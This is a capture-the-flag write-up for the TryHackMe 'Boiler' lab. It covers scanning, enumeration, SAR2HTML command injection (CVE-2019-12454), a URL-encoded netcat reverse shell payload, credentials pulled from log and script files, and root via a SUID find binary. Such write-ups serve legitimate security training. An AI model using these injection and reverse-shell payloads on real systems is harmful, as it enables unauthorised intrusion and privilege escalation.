








# CTF Write-Up: Vulnerable Machine

> **Platform:** TryHackMe  
> **Difficulty:** Easy  
> **OS:** Linux (Ubuntu)  
> **Target IP:** [IP]  

---

## Table of Contents

1. [Reconnaissance](#1-reconnaissance)
2. [Enumeration](#2-enumeration)
   - [FTP – Port 21](#21-ftp--port-21)
   - [HTTP – Port 80](#22-http--port-80)
   - [Webmin – Port 10000](#23-webmin--port-10000)
   - [SSH – Port 55007](#24-ssh--port-55007)
3. [Initial Foothold – RCE via SAR2HTML](#3-initial-foothold--rce-via-sar2html)
4. [Lateral Movement – basterd → stoner](#4-lateral-movement--basterd--stoner)
5. [Privilege Escalation – stoner → root](#5-privilege-escalation--stoner--root)
6. [Flags](#6-flags)
7. [Summary ](#7-summary)

---

## 1. Reconnaissance

### Ping

First, verify the machine is up:

```bash
ping [IP]
```

### Port Scanning with RustScan + Nmap

```bash
rustscan -a [IP] -- -sC -sV
```

**Open ports discovered:**

| Port  | State | Service | Version |
|-------|-------|---------|---------|
| 21    | open  | FTP     | vsftpd 3.0.3 |
| 80    | open  | HTTP    | Apache 2.4.18 (Ubuntu) |
| 10000 | open  | HTTP    | MiniServ 1.930 (Webmin) |
| 55007 | open  | SSH     | OpenSSH 7.2p2 Ubuntu |

Key observations from the scan:
- **FTP** allows **anonymous login** (`ftp-anon: Anonymous FTP login allowed`)
- **HTTP** on port 80 has a `robots.txt` with a disallowed entry (`/`)
- **Webmin** is running on port 10000
- **SSH** is running on a non-standard port (55007)

---

## 2. Enumeration

### 2.1 FTP – Port 21

Connect anonymously:

```bash
ftp [IP]
# Username: anonymous
# Password: (empty or anything)
```

A file named `.info.txt` is found. After downloading and reading it:

```
Whfg jnagrq gb frr vs lbh svaq vg. Ybl. Erzrzore: Rahzrengvba vf gur xrl!
```

This is **ROT-13** encoded. Decoded:

```
Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
```

---

### 2.2 HTTP – Port 80

The root page returns the default Apache2 Ubuntu page. Directory brute-forcing reveals:

```
/joomla/
```

Inside the Joomla directory, a path `/_test/` is found containing a **SAR2HTML** instance (version 3.2.1).



After downloading and extracting `sar2ascii.tar`, the application version is confirmed: **SAR2HTML 3.2.1**.



---

### 2.3 Webmin – Port 10000

Webmin 1.930 is running. The known CVE for this version is **CVE-2019-15107** (unauthenticated RCE via password reset). However, for this machine, exploitation of Webmin was **not necessary** — the SAR2HTML vulnerability provided an easier entry point.

> **Answer:** `nay` 

---

### 2.4 SSH – Port 55007

SSH is available on port 55007. Credentials found later will be used here.

---

## 3. Initial Foothold – RCE via SAR2HTML

### CVE-2019-12454 – SAR2HTML Command Injection

SAR2HTML 3.2.1 is vulnerable to **Remote Code Execution** via the `plot` parameter in `index.php`. The application passes user input directly to a shell command without sanitization.

**Proof of concept:**

```
http://[IP]/joomla/_test/index.php?plot=;id
```

**Response confirms RCE:**

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



### Reverse Shell

Set up a listener on the attacker machine:

```bash
nc -lvnp 6666
```

Inject a reverse shell payload via the `plot` parameter:
*rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ip 6666 >/tmp/f*

```
http://[IP]/joomla/_test/index.php?plot=;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20ip%206666%20%3E%2Ftmp%2Ff
```

A shell as `www-data` is received.

### Discovering Credentials in log.txt


While exploring the web root, a file `log.txt` is found:

```bash
cat /var/www/html/joomla/_test/log.txt
```



```
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: s**********$$
```

**Credentials found:**
- **User:** `basterd`
- **Password:** `s***********$$`


---

## 4. Lateral Movement – basterd → stoner

Connect via SSH on the non-standard port:

```bash
ssh basterd@[IP] -p 55007
# Password: s***********$$
```

Listing the home directory:

```bash
ls -la
```

```
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
```

Reading `backup.sh`:

```bash
cat backup.sh
```

```bash
USER=stoner
#s***********$$no1knows
```

The password for `stoner` is hardcoded as a comment in the script.

**Credentials found:**
- **User:** `stoner`
- **Password:** `s***********$$no1knows`



Switch to `stoner`:

```bash
su stoner
# or: ssh stoner@[IP] -p 55007
```

Reading the user flag:

```bash
cat /home/stoner/.secret
```

```
Y**************************ne.
```



---

## 5. Privilege Escalation – stoner → root

### Searching for SUID Binaries

```bash
find / -type f -perm -04000 2>/dev/null
```



**Notable result:**

```
/usr/bin/find
```

The `find` binary has the **SUID bit set**, meaning it runs with the privileges of its owner (root).

### Exploiting SUID find

Using the GTFOBins technique for `find` with SUID:

```bash
find . -exec /bin/bash -p \; -quit
```

This spawns a **privileged bash shell** (`-p` flag preserves EUID = root).

```bash
bash-4.3# whoami
root
```

### Reading the Root Flag

```bash
cd /root
cat root.txt
```



```
It ************************t?
```

---

## 6. Flags

| Flag | Location | Value |
|------|----------|-------|
| **user.txt** | `/home/stoner/.secret` | `You made it till here, well done.` |
| **root.txt** | `/root/root.txt` | `It wasn't that hard, was it?` |

---

## 7. Summary

### Attack Chain

```
Anonymous FTP → Hint about enumeration
       ↓
Web Enumeration → Joomla /_test/ → SAR2HTML 3.2.1
       ↓
CVE-2019-12454 (RCE) → www-data shell
       ↓
log.txt → basterd credentials (s***********$$)
       ↓
backup.sh → stoner credentials (s***********$$no1knows)
       ↓
SUID find → root shell
```

### Key Takeaways

| Step | Technique | Tool / Method |
|------|-----------|---------------|
| Recon | Port scanning | RustScan + Nmap |
| Enumeration | Anonymous FTP | `ftp` client |
| Enumeration | Web directory fuzzing | gobuster / dirbuster |
| Initial Access | CVE-2019-12454 (SAR2HTML RCE) | URL injection → reverse shell |
| Credential Discovery | Log file analysis | `cat log.txt` |
| Lateral Movement | Password reuse in script | `backup.sh` comment |
| Privilege Escalation | SUID find binary | GTFOBins |

---

*Write-up by: SubZer030 — TryHackMe Boiler*